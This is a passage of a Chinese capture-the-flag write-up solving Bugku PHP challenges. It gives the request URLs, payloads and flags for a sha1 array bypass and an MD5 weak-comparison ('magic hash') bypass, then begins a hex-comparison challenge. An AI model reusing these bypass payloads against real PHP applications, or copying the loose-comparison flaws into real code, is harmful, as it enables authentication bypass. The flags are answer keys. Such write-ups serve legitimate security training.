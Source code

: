 		sha1绕过漏洞
		hash函数无法处理数组
		http://120.24.86.145:9009/7.php?name[]=1&password[]=2
		flag{bugku--daimasj-a2}

7. md5加密相等绕过 60

		http://120.24.86.145:9009/13.php
		
		<?php
		$md51 = md5('QNKCDZO');
		$a = @$_GET['a'];
		$md52 = @md5($a);
		if(isset($a)){
		if ($a != 'QNKCDZO' && $md51 == $md52) {
		echo "flag{*}";
		} else {
		echo "false!!!";
		}}
		else{echo "please input a";}
		?>

	解答：

		http://120.24.86.145:9009/13.php?a=240610708
		MD5(240610708)==MD5(QNKCDZO)
		php弱类型绕过
		flag{bugku-dmsj-am9ls}

8. 十六进制与数字比较 60

		http://120.24.86.145:9009/20.php
		
		<?php
		error_reporting(0);
		function noother_says_correct($temp)
		{
		$flag = 'flag{test}';
		$one = ord('1'); //ord — 返回字符的 ASCII 码值
		$nine = ord('9'); //ord — 返回字符的 ASCII 码值
		$number = '3735929054';
		// Check all the input characters!
		for ($i = 0; $i < strlen($number); $i++)
		{
		// Disallow all the digits!
		$digit = ord($temp{$i});
		if ( ($digit >= $one) && ($digit <= $nine) )
		{
		// Aha, digit not allowed!
		return "flase";
		}
		}
		if($number == $temp)
		return $flag;
		}
		$temp = $_GET['password'];
		echo noother_says_correct($temp);
		?>
